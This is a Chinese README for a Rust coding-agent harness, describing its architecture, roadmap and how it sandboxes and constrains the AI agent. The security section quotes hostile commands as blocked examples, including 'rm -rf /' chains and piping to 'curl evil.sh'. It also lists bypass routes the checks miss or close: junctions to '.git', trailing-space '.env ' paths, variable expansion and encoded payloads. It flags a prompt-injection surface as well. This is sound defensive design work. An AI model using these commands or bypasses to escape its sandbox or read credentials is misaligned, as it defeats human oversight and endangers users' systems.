


# Rust Coding Agent Harness

> 基于 Rust 的 AI 编程执行框架。参考 Codex 等成熟 Coding Agent 的公开设计，复用主流开源组件，逐步实现能够在真实代码仓库中规划任务、调用工具、修改代码、运行测试并交付可审查结果的 AI 编程系统。

**项目定位：**工程实践与技术学习优先，先复刻成熟能力，再依据真实使用和评测结果改进。AI 参与设计与编码，人类工程师负责关键决策、代码审查、测试验收和上线授权。

**项目状态：**可运行原型，持续迭代中。当前单任务 Coding Agent 的主要链路已经可用，
包括中断后的任务级恢复与 token 预算驱动的上下文压缩；跨平台隔离、交互与扩展能力仍在
后续阶段。实际进度以仓库代码、测试结果和运行记录为准，不以规划文字代表已完成能力。

## 1. 项目目标

本项目计划构建一个可扩展、可控制、可追踪的 Coding Agent Harness，使 AI 能够在指定代码仓库内完成常见的软件工程任务：

- **缺陷修复：**分析失败日志、定位问题、修改代码、运行回归测试。
- **功能开发：**理解需求、拆解工作、编写实现及相应测试。
- **代码重构：**分析影响范围，实施小步修改并验证兼容性。
- **代码评审：**结合 Git diff 和项目上下文识别风险，提交审查建议。
- **测试与诊断：**执行编译、单元测试、静态检查，收集证据并反馈。

项目不训练基础大模型，也不以重新实现现成的 HTTP、异步或模型 SDK 为目标。重点研究 **Harness 如何协调模型、工具、状态、权限和工程验证**。

## 2. 总体架构



架构职责按以下原则划分：

| 模块 | 主要职责 |
| --- | --- |
| Agent Runtime | 驱动模型与工具之间的多轮交互，维护任务状态及停止条件。 |
| 任务与工作流模板 | 为修 Bug、开发功能、代码评审等任务提供可复用执行流程。 |
| 上下文与会话管理 | 管理项目规则、相关代码、对话历史、上下文裁剪与恢复。 |
| 模型适配器 | 统一模型请求、流式响应、工具调用数据结构。 |
| 工具注册与调度 | 注册内置工具和 MCP 工具，校验参数并收集执行结果。 |
| 权限策略与人工审批 | 控制文件访问、命令执行、外部连接及高风险操作。 |
| 事件记录与评测 | 记录每一步操作、耗时、Token 消耗、错误及任务结果。 |

模块之上是一组**扩展点**：模型提供方（`LlmProvider`）、工具来源（`ToolSource`）、
工具守卫（`ToolGuard`）、运行挂点（`RunHooks`）、上下文策略（`ContextPolicy`）
都以 trait 定义在应用层，各有默认实现，装配集中在 `main.rs` 与
`AgentDependencies`。想加新行为时先找扩展点、不改核心循环；完整落点表与
"明确不做"的范围见 [docs/architecture.md](docs/architecture.md)。

## 3. Coding Agent 任务执行流程



任务循环必须支持用户取消、超时、工具失败、预算耗尽和安全终止。模型提出操作意图，但**实际文件读写、命令执行以及权限判断由 Harness 控制**。

## 4. 核心能力规划

### 4.1 Agent 与多智能体协作

第一阶段优先让**单 Agent 执行循环**稳定运行；在此基础上逐步加入明确分工的多 Agent 机制：

| 角色 | 职责 |
| --- | --- |
| Planner | 理解目标、拆解任务、安排执行顺序。 |
| Coder | 阅读与修改代码，依据反馈持续修复。 |
| Tester | 运行测试、分析失败、提供验证结果。 |
| Reviewer | 审查 Diff、风险、工程规范和可维护性。 |
| Summary / Memory | 整理任务结论、重要上下文和可复用经验。 |

所有 Agent 共用 Harness 的工具权限、会话状态和执行记录；**多 Agent 不是默认并行执行所有任务**，而是根据任务复杂度按需启用。

### 4.2 内置工具与 MCP

内置工具按能力分组：

- **代码操作：**文件浏览、读取与修改、全文搜索、补丁应用、Git diff。
- **执行验证：**Shell、编译、测试、Lint、格式化、结果采集。
- **研发辅助：**文档查询、API 调试、日志诊断，后续扩展浏览器验证。

通过 MCP Client 对接符合协议的 MCP Server，按需接入代码托管、工单、文档知识库、CI/CD 和其他企业研发服务。**MCP 工具与内置工具适用同一套授权、审批、超时和审计机制**。

### 4.3 工作流模板

初期建设四类模板：

| 模板 | 标准流程 |
| --- | --- |
| Bug 修复 | 获取复现信息 → 定位原因 → 修改 → 测试 → 评审 → 交付 |
| 功能开发 | 理解需求 → 规划实现 → 编码 → 补充测试 → 验收 |
| 代码评审 | 读取 Diff → 分析上下文 → 检查风险 → 提交建议 |
| 重构 | 明确行为基线 → 分批修改 → 回归测试 → 对比结果 |

模板用于规范默认执行方式；具体动作仍由 Agent 结合实际仓库状态判断，不能只靠固定顺序机械执行。

## 5. 技术选型

| 类别 | 当前或计划采用 | 说明 |
| --- | --- | --- |
| 核心开发语言 | **Rust（已采用）** | Harness、工具编排与执行控制。 |
| LLM 生态 | **Rig（已采用）** | 通过 `rig-core` 接入模型，保留替换空间。 |
| 异步运行时 | Tokio（已采用） | 异步 I/O、子进程与超时控制。 |
| 数据与 HTTP | Serde、TOML、Reqwest（已采用） | 通过 Rig 使用 Reqwest 发起模型请求。 |
| CLI / TUI | 当前手写 CLI；Clap / Ratatui（计划） | 现有入口规模较小，后续 TUI 再评估组件。 |
| 代码检索 | **`ignore` + `regex`（已采用，ripgrep 自己用的那套）** | `search_text` 遵循 `.gitignore`（含嵌套目录），支持正则与扩展名过滤；符号级检索留给 tree-sitter。 |
| 代码分析 | Tree-sitter（计划） | 语法结构与代码导航。 |
| 数据存储 | JSONL（已采用）；SQLite（待按需评估） | 保存会话证据和运行报表。 |
| 工具互联 | MCP stdio（已采用） | 扩展外部工具与研发系统。 |
| 进程与隔离 | Windows Job Object（已采用）；Linux/macOS 沙箱（计划） | 当前边界只覆盖资源与进程树，尚未隔离文件系统与网络。 |

选型以成熟生态、可维护性和可测试性为优先，避免在首版引入复杂的分布式编排。

## 6. 迭代路线

| 阶段 | 交付重点 | 验收目标 |
| --- | --- | --- |
| M1 · 最小运行 | Rust CLI、模型调用、单 Agent Loop、基础工具协议 | 模型能够连续调用工具并正确停止。 |
| M2 · 真实编码 | 文件与 Git 工具、Shell、补丁、测试 | 在隔离测试仓库内独立完成一次缺陷修复。 |
| M3 · 可靠性 | 审批、超时、状态保存、上下文管理、安全隔离 | 能处理中断、失败和越权请求，保留完整记录。 |
| M4 · 平台扩展 | 工作流模板、MCP、多 Agent | 完成至少一个跨角色、跨工具的编码任务。 |
| M5 · 实际使用与评测 | 固定任务集、使用记录、成本与成功率分析 | 用可复现实验评估质量，并持续改进。 |
| P10 · 长任务接续 | 任务级恢复、可观察的上下文压缩 | 中断后的任务能从原步骤继续，压缩后仍有找回关键证据的路径。 |
| P11 · 编码能力与执行效率 | 结构化补丁工具、gitignore 感知的搜索、按角色分配模型与档位 | 一次改多处不必逐处改；搜得到才谈得上修得对；每轮延迟按角色摊薄。 |
| P11 · 可执行边界 | 文件系统与网络隔离、跨平台沙箱、扩展工具治理 | 高风险工具的能力边界由运行时验证，各平台降级与拦截都有证据。 |
| P12 · 扩展平台 | 配置化角色、Skill、Hook、插件与多 Agent 协作 | 不修改核心代码即可接入一个经过审批的新能力，并保留统一审计。 |
| P13 · 开发生态 | TUI、实时事件协议、SDK/ACP、IDE 与版本工程集成 | 其他前端能复用同一套任务、审批和工具执行语义。 |
| P14 · 真实评测 | 跨语言、长任务、失败恢复与安全基准；质量报告 | 用公开可复现的质量、成本、时延和安全数据决定发布门槛。 |
| P15 · 稳定发布 | 安装升级、兼容迁移、文档、诊断与受控发布 | 新环境可安装、旧会话可迁移、发布与故障处置可复现。 |

上述为**计划里程碑**，不表示已完成或已承诺具体交付日期。

### 开发进度与后续阶段

当前已实现分层状态机、工具与审批、上下文与快照、工作流、角色边界、评测报表、
Windows 进程沙箱、单任务吞吐优化、任务级中断恢复与编码能力升级（结构化补丁、
gitignore 感知搜索、按角色分配模型），以及执行边界的命令级硬拒绝、沙箱
fail-closed 与边界证据。M1–M4 的骨架已有实现；
M5 仍处于早期，当前 5 个小型 Rust fixture 基准（3 个短任务 + 2 个长任务）不足以衡量真实仓库中的任务完成率。
以下阶段按依赖关系排列；完成判据中的“中断”指预算耗尽、
模型或连接短暂失败、处理审批请求等可恢复中断，不含硬件故障，也不承诺任意时机
的崩溃都能无损续跑。未完成阶段不得对外宣称对应产品能力。

| 阶段 | 状态 | 目标与主要交付 | 完成判据 | 当前边界或前置条件 |
| --- | --- | --- | --- | --- |
| **P10 · 长任务可靠性** | 已完成 | 任务快照（`.qcodeharness/tasks/`）把原目标、步骤账、已完成结论、消耗账与会话 ID 绑在一起，`--resume-task` 从步骤边界继续；恢复回到完整轮次，停在审批闸门的请求重入时重新问人并标注"之前问过"，工作区被人动过的任务不静默续跑（`--force-worktree` 才放行）；上下文压缩改为 token 预算驱动（默认 16000，CJK 感知估算），占位说明后附代码拼出的证据台账（读/写的文件、跑过的命令、未完成的调用），摘要按步骤分段；长任务基准两段式跑法（`--benchmark-long`），判据含轮数下限、重复副作用与压缩后关键上下文。 | 模拟模型测试与真实模型（本地网关）双重验证：预算耗尽 → 从任务快照恢复 → 已完成步骤不重跑、无重复副作用、压缩后仍提到关键上下文；真实运行 2/2 长任务通过，`RUN_FORMAT` 与任务快照版本不符均明确拒绝（有测试）。 | 恢复的边界见"任务级恢复（P10）"一节：不含任意时机的崩溃续跑，不做跨机器迁移；token 估算是预算控制口径，不是计费口径；证据台账跟踪读写与命令类工具，`list_dir`/`search_text`/`git_status`/`git_diff` 四个导航类只读工具刻意不进台账。 |
| **P11 · 执行边界（第一切片）** | 已完成 | `run_command` 的字面路径硬拒绝（根感知，识别 Windows/POSIX 绝对路径、UNC、卷根、`..`、重定向与 `--flag=`，策略与审批都覆盖不了；根内绝对路径照常放行）；Windows Job Object 在 spawn 前创建，创建失败直接 fail-closed；执行器把「是否真的启动 / 沙箱是否生效」作为结构化事实交给应用层，后者记 `SandboxApplied`，MCP 调用单独标为"外部进程、无保护"；`--report` 汇总受保护与无保护执行两个计数 | 定向测试覆盖越界拒绝与不落盘、根内正常命令、创建失败时零子进程、降级和超时仍带真实边界、未启动进程不伪造保护记录、git 工具拒绝语义、MCP 元数据、报表计数与 JSONL 读回；全量 `cargo test` 与真实基准 3/3 的结果见交付报告 | 文件系统与网络隔离仍未实现（Job Object 只限内存与进程树）；非 Windows 无等价进程沙箱；MCP Server 子进程的限额与整树终止自第二切片起在 Windows 纳入同一 Job（文件系统/网络/环境脱敏仍不覆盖它）；字面路径检查自第四切片起升级为结构化 shell 词法判定（分段、逐段裁决），但变量展开、命令替换、编码与链接物理目标仍需后续隔离或求值语义 |
| **P11 · 执行边界（第二切片）** | 已完成 | MCP Server 子进程纳入与其他子进程同一个 Windows Job Object：先建 Job（建不起来就拒绝连接、零子进程）、启动进程、**握手之前**按 PID 纳入（非追溯，`uvx`/`npx` 形状下真正干活的进程才进得来）；连接结束时整树终止 | 定向测试覆盖建 Job 顺序、纳入时机与整树终止；真实平台行为以 Windows 实测为准（Linux/macOS 无等价机制，证据如实记无保护） | 文件系统/网络/环境脱敏仍不覆盖 MCP 子进程；纳入窗口之后的孙进程由系统继承成员资格兜底 |
| **P11 · 执行边界（第三切片）** | 已完成 | MCP 结构化故障与连接状态：故障按类型分类（生成/握手/发现/断连/调用超时/isError/协议/清单变化），不按错误文本猜、不编造退出码；请求已发出的超时与断连一律"结果未知"，绝不自动重放；连接级事件（连上/连接失败/断开/恢复/关闭）单独落 `mcp-lifecycle.jsonl` 并由 `--report` 单列 MCP 计数；显式有界恢复探测 `--mcp-reconnect <服务器名>`（独立模式，不接任务、不重放、不绕过注册授权审批）；正常收尾显式关连接（transport 先优雅收尾再释放 Job） | 替身状态机测试（有界单次尝试、并发共享结果、清单变化拒调、监视器单条断连）+ 真实子进程测试（握手失败/超时清理、静默调用计数落盘、drop 后断连一次、重连后调用可用且计数不涨、显式关闭 EOF、Windows 整树终止、非 Windows 不谎报保护）+ 证据层磁盘契约 6 用例；全量 `cargo test` 通过后在本行与交付报告记录真实数字 | 会话内状态机的 `reconnect()` 本轮无生产调用点（CLI-only 决定，见"MCP 生命周期"一节）；Linux/macOS 树清理路径未实测；"恰好一次执行"不承诺；连接审计写入失败降级为警告、该运行连接事件不落盘 |
| **P11 · 执行边界（第四切片）** | 已完成 | 命令解析从整串字符串匹配改为结构化 shell 词法：`src/domain/command.rs` 纯数据模型（段：`&&` `||` `;` `|` `&` 换行分段；程序/参数/全部重定向目标/`--flag=` 值），P8 升级与 P11 硬拒绝共用同一份解析与同一个裁决器（重复切词消除），逐段逐词元裁决，理由点名越界段与程序；shell 启动器（cmd/sh/powershell）引号内复合命令补查一层词元，普通程序引号文本不补查；单段命令沿用三种既有理由模板、不加段号；多段理由点名越界段与程序 | 解析真值表 12 例 + 裁决真值表（旧 suspects/allowed 原样保留 + 段归属/多重定向/嵌套引号/URL/变量放行新增）+ shell 工具集成（第二段越界拒绝且不落盘、双根内重定向放行）；全量 `cargo test` 实测 668 passed / 0 failed / 7 ignored；`cargo tree -i rustls` 为空 | 词法层仍不覆盖：变量展开（`$OUT`/`%OUT%`）、命令替换（`` `…` ``/`$(…)`）、编码绕过、别名、符号链接/junction 物理目标——继续依赖进程沙箱与文件工具的 `resolve_in`；`<<` 只合成一个输入重定向，heredoc 正文仍按普通换行分段词法处理（正文里像绝对路径的文字会触发拒绝，这是保守的假拒绝，不是正文求值）；变量展开（`$OUT`/`%OUT%`）、命令替换（`` `…` ``/`$(…)`）、编码绕过、别名、解释器 `-c`/`-EncodedCommand` 载荷、符号链接/junction 物理目标，以及裸 `/`、单级 POSIX 绝对路径（`/etc`、`/tmp`）与 `--flag=a=<外路径>` 这类第二个等号后的值都不在判据内——继续依赖进程沙箱与文件工具的 `resolve_in` |
| **P11 · 执行边界（剩余范围）** | P11 第四切片后 | 文件系统与网络隔离（受限令牌 / AppContainer 或命名空间、seccomp）；Linux/macOS 等价进程沙箱；链接物理目标与变量/编码间接路径的覆盖（需要求值语义或目标平台实测） | 在三个支持平台上验证工作区外读写、网络访问、进程逃逸、MCP 越权与超时；正常编码任务不被阻断；所有拒绝与降级产生明确证据；缺少沙箱能力的平台不会无提示执行开放命令 | 四切片之后：命令级硬拒绝（结构化词法）、fail-closed、边界证据、MCP 进程纳入同一 Job、生命周期故障分类/连接审计/显式有界恢复探测（`--mcp-reconnect`）已就位；仍缺 OS 级文件/网络隔离与跨平台进程沙箱；MCP 进程异常退出因 SDK 不提供退出码，只以"连接断开"如实表达，不猜码（见"MCP 生命周期"一节） |
| **P12 · 扩展与协作** | P11 后 | 支持项目/用户级配置、分层项目指令与可声明权限的 Skill、Hook、插件；从固定四步流程过渡到可动态编排的子 Agent、后台任务、消息和合并；所有扩展工具复用同一策略、审批、超时与审计链。 | 示例扩展无需改核心代码即可安装、列出、启用和禁用；项目规则按目录正确继承；两个独立子任务能在隔离工作树中并行，并合并经过验证的结果；扩展只能获得声明和批准的权限。 | 当前角色、模板和提示词均为内置；任务按模板串行，工具表全量展示、调用期按角色授权；尚无通用 Agent 委派与插件装载协议。 |
| **P13 · 交互与集成** | P12 后 | 提供持续交互 TUI、可重放的结构化事件流、SDK 或 ACP、IDE 接入和工作树隔离；支持任务中补充要求、查看/理解审批、取消、继续和分叉，而不必重建整个进程。 | 外部前端可以通过公开协议看到同一任务状态、工具事件和审批请求，并完成一次任务；并行的两个任务不互相覆盖工作区；结构化事件与审计证据语义一致；终端可用键盘和屏幕阅读器完成审批。 | 当前入口是单次 CLI、静态控制台播报和 stdin 审批；没有 TUI、公开事件协议或 IDE 集成。 |
| **P14 · 真实评测** | P12 起持续 | 扩展跨语言、大型仓库、功能、重构、评审、联网与长任务基准；加入恢复、沙箱、MCP 和扩展的失败用例；固定模型、工具、预算、超时和随机性；报告质量、成本、时延与失败原因。 | 在真实开源仓库上运行可复现任务集，公布通过率、重复运行稳定性、Token/成本、墙钟、安全用例结果和未解决失败；性能与安全改动有改前/改后对照。 | 目前只有 5 个独立小 Rust fixture（3 短 + 2 长，自带破损仓库）；短任务有过一次 3/3 的本地基线、长任务有过一次 2/2，但都不覆盖多语言、真实依赖、破坏性操作或安全绕过。 |
| **P15 · 稳定发布** | 最后 | 发布签名二进制和受控更新；快照、策略、工具协议与配置的兼容迁移；安装、升级、诊断、崩溃恢复、隐私和运维文档；稳定版门槛与回滚流程。 | 新机器按文档从零安装并通过冒烟任务；旧快照可校验、迁移或明确拒绝；故障诊断可定位模型、审批、工具与沙箱问题；发布候选的测试、基准与安全检查全绿后可重复回滚。 | 当前版本为 `0.1.0`；无发布渠道、兼容迁移体系、结构化诊断或稳定版验收门槛。 |

#### P10 的实施切片（已交付）

P10 按以下四个切片交付，每片都有独立测试；能力与边界见"任务级恢复（P10）"一节：

1. **任务级状态**：给 `Task` 与运行快照建立明确对应关系，保存原目标、步骤、
   当前步骤、已完成输出和会话；继续时校验快照、任务与工作树的一致性。
2. **有界恢复**：遇到预算耗尽、模型瞬断、审批中的进程中断，能回到一个完整
   轮次继续；没执行完的工具调用、已经发生的副作用和恢复后的重试要有可审计
   处理，不能静默重复。
3. **上下文与证据分离**：会话与证据保持完整；传给模型的历史按 token 预算
   裁剪。压缩摘要带入步骤边界和未完成事项，同时保存可检索的调用/文件/
   命令索引，使“省略说明”指向真实可找回的地方。
4. **长任务基准**：至少一组超过现有 16 轮上下文窗口、跨步骤且至少一次中断
   恢复的任务，独立验证完成率、重复副作用、关键上下文保持和成本。

#### 先明确不做

- 暂不新增 Web UI、IDE 或大量工具；这些依赖稳定的任务/事件协议。
- 不把“扩展可安装”当作默认放行；第三方 Hook、MCP 与插件仍须经过来源可信、
  权限声明、审批和资源边界。
- 不以单次模型得分作为完成证据；基准必须固定任务、执行环境和判据。
- 不为假想的多用户服务提前引入分布式调度或数据库；当前先保证本地单任务
  状态可验证、可恢复。

## 7. 人机协作与质量控制

本项目采用“AI 实现、人类负责”的协作方式：AI 可以阅读参考实现、编写代码、补充测试和修复问题；工程师负责架构选择、关键代码理解、风险评估、验收与合并。

每次可验收的变更应尽量包含：

1. 任务目标及影响范围。
2. 代码修改说明和可检查的 Git diff。
3. 实际执行的构建、测试命令及其结果。
4. 已知风险、未解决问题和后续处理建议。

重点模块包括 Agent Loop、工具执行、权限控制、上下文管理及会话恢复，应特别审查异常路径和边界条件。不得以“AI 声称测试通过”代替真实测试结果。

## 8. 安全边界

系统处理真实代码仓库和可执行命令，必须明确以下约束：

- 模型与 Agent 不直接获得无限制宿主机访问权：agent 经 **run_command / git_status / git_diff / 基准判据**发起的子进程，在**有进程沙箱的平台**（当前是 Windows Job Object）上运行在**进程沙箱**内——整树内存上限（单进程 4 GiB）、进程数上限（256）、超时或结束时**终止整个进程树**（含孙进程；`cmd /C "start /b ..."` 拉起的后代不再失控）。其他平台没有进程沙箱，降级执行：没有资源限额，超时只终止直接子进程，后代进程可能继续运行。沙箱默认强制生效、**不可关闭**（没有 `--disable-sandbox` 之类的开关）。失败时的取向按平台分开：**Windows 上沙箱创建失败 → 创建阶段直接拒绝，一个子进程都不启动**（fail-closed）；平台没实现（Linux、macOS 等）或子进程纳入失败时降级执行，模型会在工具结果开头看到"进程沙箱未生效"的提示，且这次执行会另发一条 `AuditEvent::SandboxApplied` 证据记下"未生效"。**范围外**：无——MCP Server 进程由 `QCH_MCP_CONFIG` 里的用户命令直接拉起，不走 `run_command` 那条执行路径，但适用同一套沙箱取向：Windows 在**启动进程之前**建 Job（建不起来就让该 Server 连接失败，与命令侧的 fail-closed 同一条线），并在**握手之前**按 PID 把启动它的那个进程纳入同一个 Job Object（限额与整树终止见"可执行边界"一节）。纳入只能覆盖该进程**之后**创建的子孙，所以先后顺序不是细节而是前提：握手成功本身就证明 `uvx`/`npx` 拉起的 Server 子进程已经存在，那时才纳入，进 Job 的只有 launcher。纳入失败、拿不到 PID 或非 Windows 平台时回退为无保护并如实记 `active=false`。文件系统与网络仍不受 Job 约束，环境变量也不脱敏（见下方已知边界）。
- **命令级越界是硬拒绝**：`run_command` 在 spawn 之前按结构化 shell 词法模型逐段检查命令（见"可执行边界"），出现指向 **workspace 外**的盘符绝对路径、UNC 路径、`..` 成分，或把输出重定向 / 用 `--flag=` 指向 workspace 外——任何一段命中都直接拒绝，**策略放行和人工审批都覆盖不了**。判据是根感知的：根内的绝对路径（`type D:\repo\src\main.rs`）照常放行。这与"越界写入必审"是两道防线：那条给人一次复核机会，这条是最后一道机械边界（详见"可执行边界"一节）。
- **受保护路径，agent 读写都被拒**：`.git`、`.qcodeharness`、以及根下的 `.env` / `.env.*`。这几个前缀命中的路径，`read_file` / `write_file` / `edit_file` / `list_dir` 直接在**路径解析**阶段拒绝，**不看策略配置**——策略能把一条规则放宽到 `allow`，但放不宽这一层。这样设计是因为"保护不留给自己去申请的许可"：历史、会话快照与凭据一旦被 agent 读到或改写，破坏是不可逆的，而任何"配置项忘了写"都会让它裸奔。`.gitignore`、`.github` 这类同样以 `.git` 开头的名字不受影响（只精确匹配 `.git`）。判定按下列口径归一化，三种变形都堵：**大小写**不敏感（所有平台都按不敏感比较。Windows 与 macOS 是文件系统语义使然，`.ENV`、`.Git/` 与 `.env`、`.git/` 是同一处；Linux 上是主动多拒几个形似路径的保守取舍，代价是一次误拒，漏拒的代价是泄露凭据）；**尾随空格和点**先剥掉再比（NTFS 本就会剥，`.env ` 落在磁盘上就是 `.env`——不归一化，把路径写成 `.env ` 就能读到凭据，而审批界面上显示的还是 `.env `）；**符号链接 / junction** 解析后再查一遍（在 workspace 里 `mklink /J jgit .git`，词法上 `jgit/config` 完全合法，落盘却打在真实的 `.git/config` 上）。
- **越界写入必审**：策略判 `allow` 的命令，若看起来在 workspace 之外写东西——`del`/`rd`/`rmdir`/`move`/`ren`/`copy`/`rm`/`mv`/`cp`/`mkdir`/`Remove-Item` 这类动词配上盘符绝对路径、UNC 路径或含 `..` 的参数，或 `>` / `>>` 重定向到外部——会被**追加升级为 `require_approval`**，理由是升级的触发点。这类请求**不吃会话信任**——`a` / `p` 存下的信任对它们无效，每次都要重新问。**不限写入型动词**：任何提到 workspace 外路径的参数都触发升级，`--flag=value` 形态连等号后面的值一起看。原因是 `git diff --output=C:\x` 这类命令既没有写入动词也没有 `>`，却真的把 workspace 的内容写到外面（本机实测会落盘）——而默认基线恰好放行 `git diff *` 一族，只按动词判会让两道防线同时失守。
- 文件操作限制在指定 Workspace 内，防范路径越界。
- Shell、MCP 和外部连接遵循最小权限原则；高风险操作必须审批。
- **审批信任按粒度收紧**：`a` 只信任"同名工具 + 完全相同的参数"，参数不同的同工具调用照问；`p` 按用户输入的前缀模式信任（`Bash(cargo test:*)` 语义）。会话信任存在内存里，不跨运行持久化。
- **项目指令不改硬边界**：`QCODEHARNESS.md`（或 `.qcodeharness/instructions.md`）注入的是系统提示词，只改变模型"想做什么"，不改变它"能做什么"——工具白名单、受保护路径、策略规则一道都不松。但它是一条**被低估的 prompt 注入面**：根位置不在受保护名单里，agent 自己能写；详见下方已知边界。
- MCP Server 连接与工具发现各有独立超时（启动+握手 30 秒、发现阶段 15 秒，单次调用另有 120 秒）："握手成功但对工具清单无响应"的半死 Server 会被收口成可读错误并降级为警告，不会挂死启动。连接断开的后果与恢复入口见"MCP 生命周期、故障证据与安全恢复"一节：超时/断连只放弃请求、原调用不自动重放，恢复只有 `--mcp-reconnect <服务器名>` 这一个显式有界的运维入口。
- 记录操作日志、退出码、文件变更和测试结果，便于追踪及回滚。
- 对超时、异常输出、取消和资源耗尽实施可控终止。
- **未经充分测试与授权，不允许自动执行生产环境发布、删除数据或其他高风险变更。**

沙箱的已知边界（决定"能不能上真实仓库"的判断）：Job Object 管不住**沙箱边界之外**的能力——命令仍可访问网络、读取用户文件（环境脱敏只清进程环境变量，不隔离文件系统），spawn 与纳入 Job 之间的窗口内拉起的孙进程不在树内（有意接受的取舍，未用 CREATE_SUSPENDED 收窄）。沙箱是"跑起来之后最多祸害多少"的机械边界，不是操作系统级的完全隔离；文件系统级隔离（AppContainer/受限令牌）是明确的非目标。**MCP Server 进程的边界**：Windows 上，harness 先建 Job、再启动进程、然后在**握手之前**按 PID 把它纳入与其他子进程同一个 Job Object——于是受内存/进程数限额约束，连接结束时整树终止（含它在纳入之后自己拉起的子进程与孙进程；rmcp 自身只 `kill()` 直接子进程，Job Object 把覆盖面补到整树）。覆盖范围以纳入时刻为界：Windows 不会把纳入之前就已存在的子进程追溯拉进来，所以顺序挪到握手之后就等于只剩一个管着 launcher 的 Job，而 `uvx`/`npx` 形状下真正干活的 Server 恰好在外面。仍**不受**保护的是：文件系统与网络（Job Object 本就不管这两样）、环境变量（不脱敏）；单次工具调用超时只放弃该请求、不中断 Server。非 Windows 平台、PID 已失效或纳入失败时，回退为无保护，证据里 `active=false` 如实记。接第三方 MCP Server 前仍需自行评估其可信度。**非 Windows 平台没有等价沙箱**：`PlatformCapabilities::detect()` 编译期判定，这类平台上一律降级执行，模型与审计证据都能看到"未生效"的声明，但这不等于有保护。

安全策略、实际沙箱强度和部署适用范围以实现和验证结果为准。

沙箱之外各机制的已知边界（同样影响"能不能上真实仓库"的判断）：

- **`command_prefix` 的 `*` 不吞 shell 链接符，但也不认引号。** `cargo test *` 不放行 `cargo test && rm -rf /`、`cargo test ; del x`、`cargo test | curl evil.sh`（命令头之后一出现 `&&` `||` `;` `|` `&` 或换行，规则就不命中，退回审批）。代价是 `cargo test 2>&1` 也要多问一次——单个 `&` 被算作链接符，这是刻意偏向多问的取舍。反过来，`echo "a && b" > out.txt` 这种把链接符写在引号里的写法会被误判为链接（宁可多问，不放宽）。
- **deny 规则的条件无法求值时按拒绝处理。** 参数名不叫 `path`/`command` 时（MCP 工具、`git_diff`、未来新工具），作用域条件无从求值；`deny` 遇到这种情形直接拒绝而不是落回默认策略，否则一条"禁止碰 secrets/"会因为参数名不同而静默失效、翻成放行。`allow` 侧仍要求条件成立。
- **越界写入检查是词法判定，不是沙箱**。它按结构化模型逐段检查词元中的绝对路径、`..`、UNC、卷根重定向及 `--flag=value`（两道防线共用同一份解析，重复切词已消除）；但认不出经过变量间接拼出的路径，也不模拟 shell 的求值、展开与转义。它把"看起来越界"的调用升级成"必须问人"，是**兜底**而不是**隔离**——真正的隔离仍然要靠进程沙箱与受保护路径。理由文案沿用三种既有模板：单段不加段号，多段命令的理由追加"（第 N 段，程序 `X`）"；结构化模型收齐的重定向目标按"输出重定向"归类，`<` 的目标只在词元扫描里按"提到越界路径"拒绝、不误写成输出重定向。这些文案都不声称覆盖全部绕过手段。
